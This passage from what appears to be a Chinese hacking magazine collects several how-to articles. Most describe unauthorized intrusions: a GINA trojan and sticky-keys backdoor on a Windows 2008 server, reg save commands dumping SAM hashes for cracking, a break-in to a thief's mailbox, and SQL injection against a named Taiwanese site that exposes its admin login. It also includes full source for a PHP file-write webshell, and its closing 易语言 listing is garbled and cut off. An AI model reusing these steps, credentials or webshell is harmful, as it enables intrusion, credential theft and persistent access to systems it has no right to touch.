cookie 是个很有用的东西，有时候我们需要获得、编辑 cookie，这些 cURL 都可以轻松做到，cURL 甚至还可以维持访问会话。获取 cookie 用到的是 `-D` 参数。比如输入：

```bash
curl -D cookie.txt http://www.baidu.com
```

就会把访问 `http://www.baidu.com` 时的 cookie 写入到文件 `cookie.txt` 中，打开 `cookie.txt` 就可以看到 cookie 信息了，如图14。

如果要修改 cookie 信息，直接修改 `cookie.txt` 文件中的内容就行了。怎样利用修改后的 cookie 呢？这时候就需要用到 cURL 的 `-b` 参数了，利用它可以把指定的 cookie 信息附加到要访问的网页中。比如修改后的 cookie 保存在了 `cookie1.txt` 中，要利用修改后的 cookie 访问 `http://www.baidu.com`，就输入如下命令：

```bash
curl -b cookie1.txt http://www.baidu.com
```

这样就会利用 `cookie1.txt` 中的 cookie 去访问 `http://www.baidu.com`，如图15。

有些网站程序的后台登录后如果没有任何动作，过一段时间后就会自动注销登录，比如我登录过的一个后台就是如果 15 分钟内没有任何操作就自动注销，再使用后台功能就需要重新登录。

## 傻瓜黑客

登录后台。这时候可以通过批处理加 cURL，隔一小段时间就利用 cURL 发送登录后的 cookie 到后台页面来维持登录状态。

简单介绍了 cURL 的 5 个常用功能。其实 cURL 还有很多功能没有介绍到，就靠你在使用过程中慢慢发掘了。你越使用它就会越觉得它是一款命令行下的神器，以前用其他软件很复杂才能完成的功能，在 cURL 下输入一条命令就完成了，效率大大提高。经过我的介绍，还没用过 cURL 的你有没有心动了呢？如果有，就来尝试下 cURL 吧，它绝对不愧为命令行下的神器。

### Windows 2008 下文件权限经验谈

李长利

在一次内网入侵中，通过安装 gina 木马，记录下了管理员账号密码，如图1。


图1

通过这个账号和密码去尝试远程登录该网段其他服务器，大部分主机都能登录（先鄙视一下管理员），其中远程登录一台服务器时，连上去发现是 Windows 2008。现在大部分服务器还是 Windows 2003，我就想好好地保护这台肉鸡，供自己使用学习。

为了防止管理员修改密码，决定在这个服务器上留下自己的后门。首先我上传配置好的木马替换系统 system32 文件夹下 find.exe 文件，但在替换文件时却出现问题，如图2、图3。替换其他系统文件也替换不了，我又想还是留粘滞键后门吧，把 cmd.exe 复制到其他文件夹下改成 sethc.exe，去替换系统文件夹下面的，发现也是提示需要权限。当我右键—属性—安全—编辑，发现所有配置都是灰色的，如图4。


图2


图3


图4

在“安全”里面—“高级”—“编辑”，新窗口中发现只有一个“查看”按钮可以点击，原来传统的“编辑”按钮不存在了，如图5。


图5

我点击“查看”按钮，发现里面的所有配置都是灰色的，无法做任何修改。我使用以往的命令行 cacls.exe 来配置其他文件的权限，却提示“拒绝访问”！晕！难道 Windows 2008 使用管理员账号也不能修改文件权限？后来经过我上网查找资料，发现真正造成这个问题的原因是文件的所有者。在 Windows 2008 系统中，系统所有文件和文件夹的权限所有者默认都是“TrustedInstaller”，如图6。


图6

在计算机管理里用户管理界面上找不到这个用户，具体这个用户的属性我没有查找官方的相关说明，不知道它对系统安全具体起到什么作用。我们只需要将文件的所有者“TrustedInstaller”修改成“Administrators”，那么我们对文件权限的操作就会随心所欲了。我们在“所有者”窗口上，选择“Administrators”，点击应用，如图7。


图7

这样就会修改文件的权限所有者为“Administrators”，如图8。


图8

现在我们对文件权限可以进行任何编辑替换了，以前是灰色无法编辑的部分都已经可以进行修改了，如图9、图10。


图9


图10

具体文件权限的修改方法我这里就不再做任何说明，和原来 Windows 2003 上是一样的：我通过修改文件权限，顺利替换粘滞键，留下自己的后门，如图11。


图11

在这里想告诉亲爱的叉子们，遇到问题要想办法解决，俗话说得好“方法总比困难多”，只有这样我们的技术才会不断进步。最后祝《黑客X档案》越办越好，能坚持走下去，永远伴随着我们成长。

## 获取系统权限后还在加用户，out 了

在几年前很多介绍渗透的文章中，如果服务器开了 3389，提权成功后执行下面类似命令：

```bash
net user test test /add

net localgroup administrators test /add
```

来添加个管理员用户登录 3389，这几乎是提权成功后的标准动作了。但如果现在提权成功后还那样做，你就 out 了。如果你问为啥，因为早就有更好的办法了。

提权成功获得系统权限后，完全没有必要新增一个管理员用户再登录 3389，直接用系统原有的管理员用户，比如系统默认的管理员用户 Administrator 登录会更好。服务器好比一个房子，你添加一个管理员用户相当于在房子上新开一个门，虽然能进去房子但很容易被房子的主人发现；而用系统原有的管理员用户登录，就好比走房子本来的门进入房子，只要你趁房子的主人不在的时候进入房子，被房子主人发现的可能性会小很多。要想从房子本来的门进入房子，拿到房子主人的钥匙就行了。这把钥匙在服务器中就是管理员用户的密码。

怎样获得管理员用户的密码呢？在提权成功获得系统权限后抓取管理员用户的 hash，然后破解出明文密码是一种方法，而且这种方法几年前就有了，技术已经比较成熟。一开始抓系统用户的 hash 是用 PwDump 等工具，不过这些工具很可能被服务器上的杀毒软件查杀，不会自己做免杀的就比较麻烦了。后来又出现了通过注册表导出 hash 的方法，这样不用在服务器上利用第三方工具抓取 hash 了，免去了不少麻烦。mickey & 李峰在《黑客X档案》2010 年第 2 期“渗透中另一种抓取系统密码 HASH 的技巧”一文中介绍了这种方法，自从看了这篇文章后我就用导出注册表的方法抓系统 hash 了。虽然 mickey & 李峰介绍过方法了，但还有很多人没注意到这个方法，我今天再“啰嗦”地重复一次。

用导出注册表的方法抓系统 hash 的语句为：

```bash
reg save hklm\sam sam.hive

reg save hklm\system system.hive
```

命令执行后会在执行命令的当前目录下生成文件 sam.hive 和 system.hive。当然执行上面的命令至少需要管理员权限，不过在提权成功后这不是问题了。还可以指定生成文件的位置，比如可以执行如下命令：

```bash
reg save hklm\sam c:\sam.hive

reg save hklm\system c:\system.hive
```

命令执行后会在 C 盘根目录下生成 sam.hive 和 system.hive，如图1。


图1

用 webshell 把生成的 sam.hive 和 system.hive 下载回来。打开 Cain，选择“Cracker”选项卡，在左面的破解项中选择“LM & NTLM Hashes”，在右面的空白处右键，在弹出的菜单中选择“Add to list”，如图2。


图2


图3

在弹出的“Add NT Hashes from”窗口中选择“Import Hashes from a SAM database”，也就是选择从 SAM 文件中导入 Hashes。在“SAM”输入框右侧点击选择按钮，选择下载回来的 `sam.hive`；在“Boot Key”下方输入框右侧点击选择按钮，在“Syskey Decoder”窗口中选择下载回来的 `system.hive`，会得到一个 32 位长度字符串，即 Boot Key。复制该 Boot Key，关闭“Syskey Decoder”后粘贴到“Boot Key”输入框，点击“Next ->”即可看到导出的 hash。

```text
IE-F3986E345605D6CCA67D39D2A147C380
SQLDebugger:...:AAD3B435B51404EEAAD3B435B51404EE:F5318A94AFD6C095F5E815644ABD402A
```

现在已经得到管理员用户 Administrator 的密码对应 hash。接下来使用 ophcrack 进行破解：安装 ophcrack 并下载彩虹表文件。打开 ophcrack，点击“Table”选择彩虹表类型（如 XP free small），点击“Install”指定彩虹表所在文件夹，确认后安装完成。


图4

在显示 hash 的地方右键，选择“Export”来导出用户名以及用户密码对应的 hash，如图5。


图5


图6

我导出的文件为 `123.lc`，用记事本打开后内容如下：

```text
Administrator:...:BD79F2D6A52F1F38DB2294261F59B4C:9A6CF9853537B192EBD8DE4AC1BF1DE2
Guest:...
SUPPORT_388945a0:...:AAD3B435B51404EEAAD3B435B51404EE:2D16B791D7D5672B0463B5D0C95D9558
IUSR_TXC8G:...:76BC3AF802D0C1013B98FF6A62BE12...
IWAM_TXC8G:...:EBB6538AD9BF773AD99732C7529472...
```


图7

在 ophcrack 中点击“Load”菜单，选择“Single hash”。在弹出的“Load Single Hash”对话框输入要破解用户对应的 hash（如 Administrator 的 hash：`BD79F2D6A52F1F38DB2294261F59B4C:9A6CF9853537B192EBD8DE4AC1BF1DE2`），点击“OK”后即导入待破解 hash。


图8

以上通过导出注册表抓系统 hash 的方法适用于 Windows 2003 SP2 系统，对于 Windows 2008 无效；对于 Windows 2000 和 Windows 2003 SP1，获得管理员密码有更简单的方法。好在我等小菜接触到的大多数服务器都是 Windows 2003 SP2 系统，基本能满足需要了。


图9

由于只有一条要破解的 hash，软件会自动选中它；如果有多条要破解的 hash 的话，用鼠标点一下就可以选中该条 hash。点“Crack”按钮来开始破解，用了 1 分 23 秒破解出了密码 `tcs1609$`，速度可以让人接受（图9）。由于我机子的配置不好，又加上在虚拟机中，速度自然慢点；如果机子配置好，不在虚拟机中破解的话，破解速度会快很多。

如果要把破解出的结果保存到文件，可以点 ophcrack 中的“Save”按钮。

只要不是特别变态的密码，ophcrack 都能很快破解出来。破解不出来的可以换更大的彩虹表文件后再进行破解。

破解出服务器上管理员用户的密码就可以用管理员用户登录 3389 了，根本不用新建新的管理员用户。用原有的管理员用户进入服务器，相对来说最不容易被管理员发现。当然你要挑管理员不登录服务器的时候登录服务器，如果你在管理员登录的时候你也登录，那就悲剧了。另外，破解出的系统管理员密码如果不是弱口令，这个密码还可能是管理员的别的密码，比如邮箱密码、他管理的其他服务器的管理员用户密码等。具体能利用到什么程度，就看你的发挥了。

个人觉得，在提权成功获得系统权限需要登录 3389 时，破解出管理员用户的密码后用系统原有的管理员用户登录，要比新建管理员用户好很多。因此获得系统权限后还在加用户，就 out 了。

我是菜鸟一个，加上写稿子的时候比较仓促，有不对或错误的地方欢迎指出。

### 对盗号者的一次恶搞

看《黑客X档案》半年多了，现在小菜我也写一篇文章为 X 做点贡献，呵呵。因为第一次写文章有可能有不对的地方，望大家见谅。

言归正传，今天下午上网，和往常一样登录 QQ，竟然 QQ 提示我登录异常，一看上次登录地点竟是在上海。心里感觉不好，出事了。有人盗我 QQ 号。回忆了一下近几个月来没有在其他电脑上登录过我的 QQ，只有在自己家登录过。问题看来就出在了自己家的电脑上。立即进行全盘杀毒，360 竟然提示未发现威胁（如图1），心里想这盗号木马绝对做了免杀。


图1

看来只能自己手工寻找了。费了点功夫，在 Windows 的 system32 目录里竟然发现了一个 QQ 主程序（QQ.exe）。这个太可疑了吧。把它复制到虚拟机里查看一下它的属性，其他并没有什么可疑的地方，就是文件大小不对。实际 QQ 的主程序仅有 100 多 KB（如图2），但是这个文件大小为 700 多 KB（如图3），这是非常不正常的。下面看来要仔细检查这个文件了。


图2


图3

先给它脱壳，似乎是本人对脱壳操作不熟练的原因，脱壳花费了点时间，不过最后还是成功了。脱完壳打开杀软对其进行杀毒，360 一下就把这个文件干掉了（如图4）。360 会杀 QQ 的程序？（3Q 大战时 360 也没干过这事呀）。


看来这绝对是一个盗 Q 木马，加了 QQ 的信息和数字签名，还加了一个免杀壳。哎，既然找到你了就不能放过你。检查一下木马里有什么有用的东西吧。


打开 C32ASM 软件把木马加载进去，打开 16 进制编辑模式，看看能找到什么有用的信息吧。打开搜索，搜索了一下“QQ”（如图5），一直耐心地往下翻。突然眼睛放光看到了好东西，竟然看到了盗 Q 软件的收信和发信邮箱，当然还有密码，竟然都是 QQ 邮箱。呵呵……心里邪恶一下，想到了报复一下盗号者。

首先先登录一下这位盗号者的 QQ 邮箱吧。看到了邮箱里竟然有 100 多封木马发的 QQ 信息，一下子我全部删光了，估计盗号者要郁闷了。登录他的 QQ 竟然有登录保护（如图6），看来盗号者对自己 QQ 的安全挺重视的。那我用手机登录他的 QQ 就不需要密保了。用手机改了他的昵称，在他的 QQ 签名上把他臭骂一顿。


到这里这次恶搞盗号者就结束了。现在很多人如果发现了自己电脑上有木马，肯定是进行杀毒，木马清干净了就没事了。其实这木马里也会有很多你可以利用的信息，你只要认真细心地分析，会发现意想不到的东西。

### 当“猜解列名”失败时

有道是“工欲善其事，必先利其器”，其实这也成为很多菜鸟长期钟情于各种黑客工具的使用而疏于手工操作的最好借口。当然这也绝非坏事，最起码我们可以熟练地利用工具来达到入侵检测的目的。不过值得一提的是，我们切不可把工具单单当成是死工具，而是应该学会变通，特别是在遇到一些小问题时不能机械地照搬复制别人的招式甚至是直接就放弃掉，一定要多用脑想想，多问自己几个为什么，因为胜利的光芒就躲在那一层窗户纸后面呢！

以注入检测为例，我们通常使用的工具就是啊D、HDSI 和明小子了，它们的相通之处在于都是在扫描过程中调用自己内部的数据库记录进行暴破尝试。试想：如果工具本身所携带的字典中没有目标网站的对号记录，那么即使对方是存在的，工具也会变成“睁眼瞎”的。因此，必要的时候我们要对工具进行自定义，以便于下一步有针对性地操作。

入侵检测的目标是 `http://www.gxxtelescope.com.tw/`（已做处理），台湾一家卖望远镜的企业。照老规矩，先要找个带“asp?id=xxx”形式的链接放明小子中跑，比如 `http://www.gxx-telescope.com.tw/content.asp?id=142`。点击“开始检测”按钮之后，很快就有提示：“恭喜，该 URL 可以注入！数据库类型：Access 数据库”。很好地开端哈，继续点击“猜解表名”按钮，稍候，显示出猜解到 admin；再继续，点击“猜解列名”按钮，这回杯具了，什么都没猜出来！到了这一步，明知对方有注入漏洞而且已经暴出有 admin 数据表，但貌似肉已经到了嘴边了，怎么办？看我的！


点击明小子的“管理员口扫描”继续对目标网站进行踩点，结果很快扫出它的后台登录地址 `com.tw/admin/default.asp`。粘贴到浏览器地址栏中访问查看一下，果然不错，出现一个“会员登入”的窗口。在空白处右键单击选择“查看源文件”，此时会打开本地的记事本读取 `default[1].htm` 文件。一般绝大多数的网站后台登录页面都比较简单（代码少），我们可以直接在里面查找“input name”这样的敏感信息，它们的值就是我们要构造的“列名”值！看到了吗？一个是 `input name="account"`，另外一个是 `input name="pwd"`（如图1），这就是该网站 admin 表中的列名。正是因为“account”和“pwd”不在明小子的数据库中而导致列名猜解失败的，此时我们就可以点击“猜解列名”按钮左侧的“添加”，分别将“account”和“pwd”加入到猜解行列中。然后在其前面打上对勾，点击后面的“猜解内容”按钮，用不了多长时间，明小子就非常给力地将目标网站的账号和密码给跑出来了（如图2），分别是“starhunter”和“telescope”，不是 MD5 加密的明文密码。


图1


图2

最后再到后台页面尝试登录，完全正确，成功进入对方的后台管理页面；点击“账号管理”，显示的内容与猜解到的全部吻合（如图3），说明之前添加“account”和“pwd”列名是完全正确的。


图3

怎么样？小小的一招，最终助我们拿下目标，给力！

## 巧用“黑玫瑰”，追捕隐藏“杀客”

郭建伟

时下各种病毒、木马、黑客程序、蠕虫等恶意程序呈现泛滥趋势，恶意程序侵入系统的花样不断翻新，严重威胁着 Windows 系统的安全。恶意程序潜入系统后，首先会千方百计地将自身隐藏起来，从而避免暴露其行踪，之后才开始在系统中兴风作浪。因此，在清除潜伏在系统中的恶意程序前，提是准确发现其藏身之处。一般来说，恶意程序都喜欢将自身伪装成正常进程、注入到正常进程中，或者伪装成系统服务，来逃过用户的追踪。使用 DarkPartical 这款独特的绿色安全软件，就可以让您对进程和系统的服务变动情况了如指掌，通过智能化的对比操作，来轻松揪出隐藏很深的害群之马。

在 DarkPartical 主窗口的“管理进程”面板（如图1）中显示当前的所有进程信息，DarkPartical 可以对所有的进程信息进行分析比较，并采用不同的颜色表示进程的安全等级，例如使用绿色表示未知进程，红色表示危险进程等，让您对当前进程的状态一目了然。对于选中的进程项目，在窗口右侧显示其说明信息；对于来历不明的进程，点击“查询 Online”按钮，可以在线查询其状态。对于可疑的进程，在将其选中（支持多选）后，点击“删除文件”按钮，可以在结束所有选中的进程后，再将其对应的文件删除。

DarkPartical 最实用的功能是“导入列表”和“导出列表”功能。在系统处于安全状态下点击“导出列表”按钮，将当前进程以及相应的模块导出为独立文件。当以后系统出现问题后，点击“导入列表”按钮，导入先前保存的进程信息文件后，在弹出的窗口（如图2）中会非常直观地显示两者的对比分析信息：在窗口底部依次显示先前进程列表多出的进程信息（在进程列表中以红色标识）、当前进程缺少的进程信息、名称相同但是对应命令行不同的信息（在进程列表中以黄色标识）等。

除了对比进程之外，还可以对比其中包含的模块信息。在“选定项与执行PID相比较”栏中输入对应的PID号（两者应该相同，也可以手工设定），点击“立即比较”按钮，即可在窗口底部显示该进程中多出的模块、缺少的模块，以及名称相同但是路径不同的模块，并在窗口右侧的模块列表中以不同的颜色显示模块的异同。这样，不管是伪装成正常的进程，还是注入到正常进程中的恶意程序，其行踪立刻就暴露出来了。

服务比较同样会显示多出的服务、缺少的服务、名称相同但是启动命令不同的服务、显示名称不同的服务、当前状态不同的服务、启动类型不同的服务等信息，同时在服务列表中以不同的颜色加以区分，让您可以轻松地发现潜伏在服务中的恶意程序。


图2


图3

在 DarkPartical 主窗口中打开“服务管理”面板（如图3），在其中显示当前所有系统服务信息。DarkPartical 同样以不同的颜色来标识服务的安全等级，颜色标识与上述完全相同。利用服务面板的右键菜单，可以实现刷新、查看 Win32 服务、内核驱动服务、隐藏已知微软服务、停止选定的服务、修改服务类型、删除选定服务等操作。

其中最实用的是服务比较功能：在系统处于正常状态时，在服务列表的右键菜单中点击“导出列表”项，将其导出为独立的文件。当系统出现问题时，在服务列表的右键菜单中点击“导入列表”项，选中先前保存的服务信息文件，在服务比较窗口（如图4）中可以清晰地显示两者的异同，在窗口的底部显示多出的服务、缺少的服务、名称相同但是启动命令不同的服务、显示名称不同的服务、当前状态不同的服务、启动类型不同的服务等信息。


图4

（文章中涉及的相关工具本期光盘已收录）

## 小菜也来写PHP小马

最近小菜我正在学习 PHP。尽管介绍 PHP 的书才看了几页，却产生了自己写个 PHP 小马的强烈想法。于是仅看了几个 PHP 函数后，仗着有 PHP 手册就开工了。

考虑到刚接触 PHP，知道的东西实在有限，因此设定我写的 PHP 小马就一个功能：写一个文件到 Web 服务器上，也就是能实现小马传大马的功能，和 ASP 的小马类似。

第一次写的代码为：

```php
<html>
<title>PHP学习笔记之PHP简陋小马</title>
<?php
echo "网站物理路径为：".$_SERVER['DOCUMENT_ROOT'];
echo "当前文件路径为：".$_SERVER['SCRIPT_FILENAME'];
?>
```

## 傻瓜黑客


图2


图3

把上面代码保存为 diy.php，放到我虚拟机里的 PHP 环境的 Web 根目录下。因为我是新手，给关键 PHP 代码都做了注释。diy.php 在虚拟机中的访问地址为 http://127.0.0.1/diy.php，用浏览器打开 http://127.0.0.1/diy.php，显示如图1。界面太丑，大家包涵，哈哈。


图1


图4

界面很简单，上面两行显示了网站的根目录和当前小马所在的路径，接下来是输入要保存文件的文件名的输入框，下面是输入要保存文件内容的输入框，最后是一个名为“保存”的按钮。这个 PHP 小马的功能就是写入一个文件到 Web 服务器上。“文件名”后面的输入框中是要保存文件的名字，支持带路径；不带路径光输入文件名字的话，是在 PHP 小马当前目录下写入文件。下面的大输入框中输入要写入文件的内容，比如 PHP 大马的代码。点“保存”按钮后写入文件。

来测试下这个小马是否能完成我预想的功能。来写入一个文件看下。文件名我写 x.php，内容写 hackerxfiles，点“保存”按钮后没有错误提示，来到 diy.php 所在的目录，发现已经生成了文件 x.php，如图2。用记事本程序打开 x.php，要写入的内容 hackerxfiles 成功写入了，如图3。


图5

再来尝试写一个 PHP 大马上去，我用的大马是 PhpSpy 2011。文件名写 phpspy.php，把 PhpSpy 2011 的源代码复制到输入框中，点“保存”按钮后在 diy.php 当前目录下成功生成了 phpspy.php，访问 `http://127.0.0.1/phpspy.php`，却出现了如图4的错误提示。怎么出错了呢？用记事本打开新写入的 phpspy.php，和正常的 PhpSpy 2011 的源代码对比一下，发现了问题：新生成的 phpspy.php 中 `\` 等符号前面都被加了转义字符，如图5。为了更直观地看到被加了转义字符，我再来写入一个文件，文件名为 test.php，内容就一个字符 `\`，然后用记事本打开写入的文件 test.php，看到的内容却是 `\\`，如图6。


图6

因为 `\` 在 PHP 中是特殊字符，所以前面被加了转义字符，写入的文件中就成了两个 `\\`。怎么才能去掉转义字符呢？这个问题困扰了我两天，后来在 PhpSpy 2011 的源代码中找到了方法：使用 `stripslashes()` 函数去掉转义字符。我也用它。经过修改后的 diy.php 的代码为：

```php
<html>
<title>PHP学习笔记之PHP简陋小马</title>
<?php
  echo "网站物理路径为：".$_SERVER['DOCUMENT_ROOT']."<br>";
  echo "当前文件路径为：".$_SERVER['SCRIPT_FILENAME'];
  $p=$_POST['fpath'];
  $c=$_POST['filecount'];
  $c=stripslashes($c);   // 去掉转义字符
  $f=fopen($p,"w");
  fwrite($f,$c);
  fclose($f);
?>
<form action="" method="post">
文件名：
<input type="text" name="fpath" size="60"><br>
<textarea name="filecount" cols="80" rows="10" width="32"></textarea>
<input type="submit" value="保存">
</form>
</html>
```

用修复后的 diy.php 再写入一个 PhpSpy 2011，文件名为 phpspy_on.php，访问之，功能正常，如图7。再写一个字符到文件，打开文件，内容就是 `\`，不再是 `\\` 了。看来 PHP 小马完成了。


图7

作为一个 PHP 小马，要保证在各种情况下都功能正常。提到转义字符，不得不提到 PHP 中一个重要配置选项 `magic_quotes_gpc`。当打开时，所有的 `'`（单引号）、`"`（双引号）、`\`（反斜线）和 `NULL` 字符都会被自动加上一个反斜线进行转义。这和 `addslashes()` 函数作用完全相同。从 PHP 5 开始，默认 `magic_quotes_gpc=On`。我虚拟机中 PHP 版本为 5.2.8，默认也是 `magic_quotes_gpc=On`，所以才导致了没用 `stripslashes()` 处理时被自动加上一个反斜线进行转义。现在的小马在 `magic_quotes_gpc=On` 时能正常使用，在 `magic_quotes_gpc=Off` 时是否也能正常使用呢？下面来测试下。

来到虚拟机中 PHP 的安装目录下，用记事本打开文件 php.ini，搜索“magic_quotes_gpc”，如图8。


图8

果然是默认的 `magic_quotes_gpc = On`，修改为 `magic_quotes_gpc = Off`，保存对 php.ini 的修改，重启 Web 服务软件（这里为 Apache）。再次打开 `http://127.0.0.1/diy.php`，再次写一个 PhpSpy 2011 到 diy.php 所在目录下，文件名为 phpspy_off.php。访问 `http://127.0.0.1/phpspy_off.php`，没看到 PhpSpy 2011 的登录页面，却看到了如图9的错误提示。


图9

提示“Parse error: parse error in `C:\Program Files\Apache Group\Apache2\htdocs\phpspy_off.php on line 8`”，提示第八行出现错误。用记事本打开 phpspy_off.php，来到第八行，代码为：

```php
define('IS_WIN', DIRECTORY_SEPARATOR == '\\');
```

PhpSpy 2011 中第8行代码为：

```php
define('IS_WIN', DIRECTORY_SEPARATOR == '\\\\');
```

## 随风黑客

很明显，phpspy_off.php 中的代码少了一个 `\`。怎么少的呢？想到了 `stripslashes()` 函数。在 `magic_quotes_gpc = On` 时会自动加转义字符，再经过 `stripslashes()` 去掉转义字符没有问题；但在 `magic_quotes_gpc = Off` 时本来没有转义，再去 `stripslashes()` 反而会出错。比如 `define('IS_WIN', DIRECTORY_SEPARATOR == '\\\\');` 中的 `\\\\` 被错误处理成了 `\\`。所以应根据 `get_magic_quotes_gpc()` 的返回值判断是否需要 `stripslashes()`。

```php
<html>
<title>PHP学习笔记之PHP简陋小马</title>
<?php
echo '网站物理路径为：' . $_SERVER['DOCUMENT_ROOT'] . '<br>'; // 显示网站物理路径
echo '当前文件路径为：' . $_SERVER['SCRIPT_FILENAME'];       // 显示当前文件路径
$p = $_POST['fpath'];      // 获取 POST 过来的 fpath
$c = $_POST['filecount'];  // 获取 POST 过来的要写入文件的内容

// 判断 magic_quotes_gpc 的值
if (get_magic_quotes_gpc()) {
    // 去掉转义字符
    $c = stripslashes($c);
}

$f = fopen($p, 'w');      // 以写的方式打开
// fpath 变量指定的文件，不存在则创建
fwrite($f, $c);           // 把内容写入文件
@fclose($f);
?>
<form action="" method="post">
文件名
<input type="text" name="fpath" size="60"><br>
<textarea name="filecount" cols="80" rows="10" width="32"></textarea>
<input type="submit" value="保存">
</form>
</html>
```

用最新的 diy.php 再次写一个 PhpSpy 2011，文件名为 `phpspy_off1.php`，然后访问 `http://127.0.0.1/phpspy_off1.php`，这次没有什么问题了，如图10。

把 `magic_quotes_gpc = Off` 修改为 `magic_quotes_gpc = On`，再次写入也成功。又试了带路径写入文件，都成功。至此，这个 PHP 小马就写完了，当然还有很多不完善的地方，比如写入成功提示、界面美化等，后续再完善。


图10

由于是刚开始学 PHP，知道的东西太少，写的 PHP 小马有什么 bug 或逻辑不严谨的地方欢迎大家指正。

### 易语言实现简单键盘记录

## —— 勒版，刷道具，抢礼包！全能！

李陌影青

#### 起因

前几日同学叫我帮忙做一个鼠标连点器的软件，因为他的连点器硬件坏了，再买一个太贵了，最便宜的也要八十多元人民币。我就答应了，毕竟是同桌啊！据说他每周在游戏中刷限时礼包，在倒卖，能赚三四百呢！真是个有经济头脑的同学啊。

#### 开始

因为本人英语不是很好，所以选择了中文编程软件——易语言。由于软件比较大，有三百多 MB 呢，本人就不上传了，到处都有下载，都可以下得到破解版的。由于以前没有接触过这类型的软件，所以在网上看了看相关的原理，也找到了一些源码，不过都不太满意，所以就自己做了一个让自己满意的。


首先大概了解一下这款软件的运作原理，需要一些变量参与工作，比如基本组件中的“时钟”（如图1）。我们要利用它做计时工作，也就是说在一段时间内时钟会记录周期的次数，进而判定代码的运行。我们需要三个时钟同时工作，分别显示现在的时间，记录被选择的周期，核对频率。

如图2，新建一个 Windows 窗口程序，接下来就要开始编写代码了，代码如下：


```text
// 程序初始化与变量定义（节选）
局部变量 a 文本型
局部变量 b 文本型
局部变量 c 文本型
局部变量 d 文本型
局部变量 e 文本型
局部变量 f 整数型
局部变量 h 整数型
局部变量 g 整数型

XP风格（2）
窗口图标（启动按钮图标，“傻瓜黑客”）

左键单击/右键单击选项逻辑：
如果（a == 左键） 现行选中项 = 0
如果（a == 右键） 现行选中项 = 1
```

```text
左右键选择 现行选中项
如果结束

点击次数选择“加入项目”
（单击/双击）

如果（b == 单击）
    点击次数选择.现行选中项 = 0
否则
    点击次数选择.现行选中项 = 1

取文本左边项（c）
如果（c == 0）
    点击频率选择.现行选中项 = 0
如果（c == 0.2）
    点击频率选择.现行选中项 = 1
如果（c == 0.5）
    点击频率选择.现行选中项 = 2

快捷键：加入项目（Ctrl+0 / Ctrl+Alt+1）
```

```text
直接设置。

d = 取文本注册项（3，“Software\春陌殇青春作品\按键01”，“Ctrl”） // 确定选项

如果（d == “Ctrl”） // 同样和上边的 e 判断一样，这次是判断快捷键选择
    快捷键1.现行选中项 = 0
    g = 0
    h = 1
否则
    快捷键1.现行选中项 = 1
    h = -1
    g = -4
如果结束 // 到此结束这一段代码

快捷键2.加入项目（“F1”，0） // F 系列快捷键，含义笔记本都有，可和上一阶段的两个快捷键配合自定义使用
快捷键2.加入项目（“F2”，1）
快捷键2.加入项目（“F3”，2）
e = 取文本注册项（3，“Software\春陌殇青春作品\按键02”，“F3”） // 同样确定选项

如果（e == “F1”） // 同样和上边的 d 判断一样，这次是判断另一组快捷键选择
    快捷键2.现行选中项 = 0
    F = #F1键
否则
如果结束
如果（e == “F2”）
    快捷键2.现行选中项 = 1
    F = #F2键
否则
如果结束
如果（e == “F3”）
    快捷键2.现行选中项 = 2
    F = #F3键
否则
如果结束 // 判断结束，进入下一阶段代码

状态条1.置文本（0，“现在时间是：” + 时间到文本（取现行时间（），1））
编辑框1.内容 = “使用方法：1.运行本程序 2.运行游戏 3.把鼠标放在你想点击的地方 4.按…（以下内容在原图中为连续代码说明）”
```

```text
启动窗口.取窗口句柄（），标签4.取窗口句柄（），“h”“g”“F”
// 在 Windows 中，句柄是一个系统内函数结构的引用。通俗地说，就是给程序编一个号。

子程序_启动窗口_位置将被改变 // 决定窗口能不能移动
子程序_分组框1_鼠标左键被按下，逻辑型
参数 横向位置，整数型
参数 纵向位置，整数型
参数 功能键状态，整数型

子程序_编辑框1_内容被改变
局部变量 d，文本型
局部变量 e，文本型

d = 取文本注册项（3，“Software\春陌殇青春作品\按键01”，“Ctrl”）
e = 取文本注册项（3，“Software\春陌殇青春作品\按键02”，“F3”）

编辑框1.内容 = “何秦尔万岁/刺客信条万岁/费特利尔小组万岁/育碧万岁……”
// 使用方法：1.运行程序 2.运行某某游戏 3.把鼠标放在你想点击的地方 4.按 Ctrl+F3 开始 5.不想点了按 Ctrl+F3 停止

子程序_时钟1_周期事件 // 这就是记录周期的时钟啦
状态条1.置文本（0，“现在时间是：” + 时间到文本（取现行时间（），1））

子程序_启动窗口_托盘事件 // 这个没什么用，只是介绍自己的工具而已
参数 操作类型，整数型
子程序_退出_被选择
销毁（）

子程序_状态条2_鼠标左键被按下，逻辑型
参数 横向位置，整数型
参数 纵向位置，整数型
参数 功能键状态，整数型
子程序_显示_被选择
    启动窗口.可视 = 真 // “真”则可以看到
子程序_隐藏_被选择
    启动窗口.可视 = 假 // “假”则不可以看到
```

#### 子程序：访问空间-被选择

打开指定网址（"http://user.qzone.qq.com/706417214/infocenter"）

#### 子程序：标签4-反馈事件（整数型）

- 参数：参数一，整数型
- 参数：参数二，整数型
- 局部变量 c，文本型
- 局部变量 d，文本型
- 局部变量 g，整数型
- 局部变量 h，整数型
- 局部变量 e，文本型
- 局部变量 f，整数型

c ＝ 取文本左边项（3, "Software\\奢陌影像肖作品\\按键05", "0,1"）  
如果（c ＝ "0,1"）  
    时钟3.时钟周期 ＝ 100  
否则  
如果结束

如果（c ＝ "0,2"）  
    时钟3.时钟周期 ＝ 200  
否则  
如果结束

如果（c ＝ "0,5"）  
    时钟3.时钟周期 ＝ 500  
否则

状态条1.置文本（"..."）

子程序()：

#### 子程序：按钮1-被单击

- 局部变量 d，文本型
- 局部变量 e，文本型

如果（快捷键1.现行选中项 ＝ 0）  
    写注册项（3, "Software\\奢陌影像肖作品\\按键01", 快捷键1.取项目文本（0））  
否则  
    写注册项（3, "Software\\奢陌影像肖作品\\按键01", 快捷键1.取项目文本（1））  
如果结束

如果（快捷键2.现行选中项 ＝ 0）  
    写注册项（3, "Software\\奢陌影像肖作品\\按键02", 快捷键2.取项目文本（0））  
否则  
如果结束

如果（快捷键2.现行选中项 ＝ 1）  
    ...  
    写注册项（3, "Software\\奢陌影像肖作品\\按键02", 快捷键2.取项目文本（1））  
否则  
如果结束

如果（快捷键2.现行选中项 ＝ 2）  
    写注册项（3, "Software\\奢陌影像肖作品\\按键02", 快捷键2.取项目文本（2））  
否则  
如果结束

如果（点击频率选择.现行选中项 ＝ 0）  
    写注册项（3, "Software\\奢陌影像肖作品\\按键04", 点击频率选择.取项目文本（15））  
否则  
如果结束

如果（点击频率选择.现行选中项 ＝ 1）  
    写注册项（3, "Software\\奢陌影像肖作品\\按键05", 点击频率选择.取项目文本（9））  
否则  
